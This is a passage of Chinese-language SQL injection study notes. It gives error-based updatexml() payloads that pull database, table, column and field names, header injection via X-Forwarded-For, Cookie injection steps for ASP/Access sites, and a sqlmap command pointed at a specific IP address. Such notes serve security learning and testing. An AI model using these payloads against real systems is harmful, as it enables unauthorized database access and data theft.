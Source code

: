 - $_SERVER['HTTP_REFERER'] 获取Referer请求头数据
- $_SERVER["HTTP_USER_AGENT"] 获取用户相关信息，包括用户浏览器、操作系统等信息
- $_SERVER["REMOTE_ADDR"] 浏览网页的用户IP

### 函数

updatexml()更新xml文档的函数

语法：updatexml(目标xml内容，xml文档路径，更新的内容)

```
updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)
updatexml(1,concat(0x7e,(SELECT table_name from information_schema.tables where table_schema = database() limit 0,1),0x7e),1)
updatexml(1,concat(0x7e,(SELECT column_name from information_schema.columns where table_schema = database() and table_name = '表名' limit 0,1),0x7e),1)
updatexml(1,concat(0x7e,(SELECT 字段名 from 表名 limit 1,1),0x7e),1)
```

### PS

1. 0x7e 实际是是16进制，Mysql支持16进制，但是开头得写0x  0x7e是一个特殊符号，然后不符合路径规则报错
2. 有时可以在请求头中加上X-Forwarded-For: 进行注入

## 0x06 Cookie注入

### and等字符被拦截的情况下，asp、aspx、php<=5.4.45可用

开发滥用$_REQUEST引起的，使用Cookie注入需要URL编码

在开发者工具中找到Cookie设置ID和值，再将get传参的?id=1删去，发现还是可以正常访问，说明存在Cookie注入。

### 设置Cookie，需要URL编码

1. 按F12，在浏览器中修改Cookie
2. 使用BrupSuite抓包修改Cookie，在后面加上; id=171发现和get传参的结果一样
3. 通过Js，document.cookie="id="+escape("171 order by 1")

Access查询必须后带表名，而一开始并不知道表名，union select 1,2,3,4 from 表名，这时有两个办法解决：

- 查询系统自带库【MySQL MsSQL Oracle】都可以这样做，但是Access是淘汰的数据库，所以没办法，只能用第二个办法
- 强猜 admin news user job,但是Access数据库在使用union select时可能会出错，所以一般使用 and exists (select*from 表名)判断表名，可以利用BurpSuite跑字典跑出表名

之后要查出表内内容有两个办法：

- 强猜，猜测表内有什么字段
- 偏移注入

### sqlmap跑Cookie注入

```
sqlmap.py -u "http://59.63.200.79:8004/shownews.asp" --cookie "id=171" --level 2
```

## 0x07 偏移注入

